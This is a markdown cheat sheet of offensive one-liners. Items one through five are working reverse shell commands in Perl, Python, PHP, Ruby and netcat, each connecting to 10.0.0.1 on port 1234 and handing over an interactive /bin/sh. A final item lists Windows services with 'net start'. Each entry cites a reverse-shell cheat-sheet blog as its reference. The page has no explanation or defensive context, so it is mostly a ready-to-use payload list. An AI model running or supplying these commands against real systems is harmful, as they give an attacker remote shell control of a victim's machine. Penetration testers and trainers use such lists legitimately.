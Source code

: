 ### 1. perl reverse shell
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
**- linux,reverse shells,Windows,perl**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 2. python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
**- linux,reverse shells,Windows,python**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 3. php reverse shell : php from the CLI
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
**- linux,reverse shells,Windows,php**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 4. ruby reverse shell
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
**- linux,reverse shells,Windows,ruby**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 5. net cat reverse shell
```
nc -e /bin/sh 10.0.0.1 1234
```
**- linux,reverse shells,Windows**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 6. list windows services
```
net start
```
**- enumeration,Windows**
#### References:

